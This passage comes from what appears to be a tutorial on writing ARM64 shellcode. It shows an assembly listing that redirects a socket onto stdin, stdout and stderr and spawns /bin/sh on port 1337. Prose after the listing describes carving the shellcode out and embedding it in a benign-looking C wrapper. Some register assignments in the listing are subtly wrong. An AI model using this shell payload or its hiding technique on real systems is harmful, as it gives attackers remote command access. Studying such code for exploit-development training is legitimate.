 ```nasm
          
        mov   x0, x4           // x4 is the saved sockfd 
        mov   x1, #0           // x1 = 0 (stdin)
        mov   x2, #0           // x2 = 0
        mov   w8, #24          
        svc   #1

// dup3(sockfd, 1, 0) 
        mov   x0, x4          // x4 is the saved sockfd 
        mov   x1, #1          // x1 = 1 (stdout) 
        mov   x0, #0          // x2 = 0 
        svc   #1

// dup3(sockfd, 2, 0) 
        mov   x0, x4         // x4 is the saved sockfd 
        mov   x1, #2         // x1 = 2 (stderr)
        mov   x2, #0         // x2 =
        svc   #1

// execve("/bin/sh",0,0) 
        adr   x0, shell
        mov   x1, #0        
        mov   x2, #0
        mov   w8, #221       // x8 = 221 (execve) 
        svc   #1

sockaddr:
    .ascii "\x02\x00"      // AF_INET
    .ascii "\x05\x39"      // port number 1337 
    .byte 0,0,0,0  // IP Address 
shell:
    .ascii "/bin/sh"
```

{% hint style="info" %}
I also recently learned that if you're really trying to save space but you're trying to land a shell in your shellcode, you can even get rid of `stderr` (`r0=3`) and your program will work fine without it. :bulb:
{% endhint %}

## We have our code, now what?

Now that we have our ASM source code, there are a two main things that we can do with it. We can convert this ASM into an executable binary, "carve" out the shell code (malicious instructions) that will be added to a benign/wrapper C program later.

These next few steps will ARM you (pun intended) with everything you need to accomplish both things listed above.&#x20;

### Creating an Executable
